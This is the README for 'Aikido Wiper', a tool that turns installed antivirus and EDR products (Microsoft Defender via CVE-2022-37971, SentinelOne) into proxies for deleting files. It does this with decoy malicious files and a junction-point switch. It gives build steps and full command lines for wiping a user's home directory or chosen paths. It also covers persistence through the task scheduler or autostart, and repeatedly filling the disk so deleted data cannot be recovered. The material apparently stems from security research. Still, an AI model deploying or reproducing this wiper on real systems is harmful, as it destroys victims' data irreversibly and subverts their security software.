 # Aikido Wiper
## Installation
### Aikido Wiper Library
```bash
pip install <repo_path>
```
or
```bash
python setup.py install
```

### Aikido Wiper Tool
Make sure you installed the Aikido Wiper Library and then run:
```bash
pyinstaller --onefile wiper_tool/wiper.py
```

## Usage
The Aikido Wiper offers two options to begin with:
```cmd
cmd> .\wiper.exe -h
usage: wiper.exe [-h] [-q] {PROXY_DELETION,ERASE_DISK_TRACES} ...

Aikido Wiper - Next gen wiping

optional arguments:
  -h, --help            show this help message and exit
  -q, --quiet           If specified, the wiper will run in the background

mode:
  {PROXY_DELETION,ERASE_DISK_TRACES}
```
* `PROXY_DELETION` - Specifies that you want to wipe something.
* `ERASE_DISK_TRACES` - Specifies that the wiper should fill the free space on the disk completely with a huge file, delete the file, and repeat this process a few times. This option mainly exists for the wiper to be able to use this feature in order to make deleted files unrestorable after one of the exploits is exploited and a reboot occurs.

If `PROXY_DELETION` is chosen then a few other options are available:
```cmd
cmd> .\wiper.exe PROXY_DELETION -h
usage: wiper.exe PROXY_DELETION [-h] [-p {MicrosoftDefenderDeleteProxy,SentinelOneDeleteProxy}]
                                [-etp {RIGHT_AFTER,TASK_SCHEDULER_REBOOT,AUTOSTART_REBOOT}]
                                [--decoy-root-dir DECOY_ROOT_DIR]
                                {ALL_USER_DATA,ALL_FILES_UNDER_PATH,CUSTOM_PATHS} ...

optional arguments:
  -h, --help            show this help message and exit
  -p {MicrosoftDefenderDeleteProxy,SentinelOneDeleteProxy}, --proxy {MicrosoftDefenderDeleteProxy,SentinelOneDeleteProxy}  
                        The proxy security control to use
  -etp {RIGHT_AFTER,TASK_SCHEDULER_REBOOT,AUTOSTART_REBOOT}, --erase-traces-point {RIGHT_AFTER,TASK_SCHEDULER_REBOOT,AUTOSTART_REBOOT}
                        When to execute the part of the wiping that fills the disk to remove traces of deleted files       
  --decoy-root-dir DECOY_ROOT_DIR
                        The path in which all the decoys will be placed in case of a usage of a JunctionSwitchProxy        

deletion_target:
  {ALL_USER_DATA,ALL_FILES_UNDER_PATH,CUSTOM_PATHS}
    ALL_USER_DATA       Try to delete the home directory of a certain user
    ALL_FILES_UNDER_PATH
                        Try to delete all the files under the certain path
    CUSTOM_PATHS        Try to delete custom paths
```
The mandatory option to choose is the deletion target.
* `ALL_USER_DATA` requires the name of the target user. example:
```cmd
cmd> .\wiper.exe PROXY_DELETION ALL_USER_DATA Admin
```
* `ALL_FILES_UNDER_PATH` requires the path to the target directory. example:
```cmd
cmd> .\wiper.exe PROXY_DELETION ALL_FILES_UNDER_PATH C:\Users\Admin
```
This option is not relevant to run against Windows Defender & Defender for Endpoint since the exploit for them does not support specific files deletion
* `CUSTOM_PATHS` requires a path to a file that contains a list separated by line breaks and contains the paths to try to delete. The paths can be directories or files. example:
```cmd
cmd> .\wiper.exe PROXY_DELETION CUSTOM_PATHS .\custom_paths.txt
```
The exploit for Windows Defender & Defender for Endpoint does not support specific files deletion. Therefore, the custom paths file can contain only paths to directories.

### Default Behavior With Mandatory Arguments Only
If you give the wiper only the mandatory arguments, which are the operation mode, probably `PROXY_DELETION`, along with the deletion target, then the default behavior will be as the following:
* The wiper will create a decoy directory in the root path of the Windows drive of the computer.
* The wiper will create the specially crafted paths inside the decoy directory and create the decoy files.
* The wiper will keep open handles to the decoy files until the EDR or the AV is forced to give up on deleting them and instead marks them for deletion for after the next reboot.
* The wiper will write a task to the task scheduler that will run the wiper in the `ERASE_DISK_TRACES` mode right after the reboot.
* After the reboot the target files or directories will be deleted and the wiper will start the process of filling up the disk a few times.

### Optional Behavior With Optional Arguments
#### `-p` / `--proxy`
Lets you choose the deletion proxy class to use. By default, the class is chosen according to the EDR / AV installed on the computer.
* `MicrosoftDefenderDeleteProxy` - Exploits CVE-2022-37971.
* `SentinelOneDeleteProxy` - Exploits <TBD>
#### `-etp` / `--erase-traces-point`
Lets you choose the point in time in which the erase disk traces trick should occur. In other words, the point in time when the wiper starts to fill up the disk to no space for a few times.
* `RIGHT_AFTER` - Should occur right after the exploit is being exploited with no reboot (not relevant for `MicrosoftDefenderDeleteProxy` or `SentinelOneDeleteProxy` but maybe for future exploits)
* `TASK_SCHEDULER_REBOOT` - The wiper should erase disk traces after reboot while using the task scheduler persistency method.
* `AUTOSTART_REBOOT` - The wiper should erase disk traces after reboot while using the autostart directory persistency method.
#### `--decoy-root-dir`
The exploits require a creation of decoy malicious files in order to make the AV / EDR try to delete them and then right before the deletion turn the decoys' root directory into a junction point to the Windows drive. This parameter lets you choose where to create the root directory for the decoys which are used for the exploits against the EDRs / AVs. The default directory is a directory with a uuid name in the Windows drive.



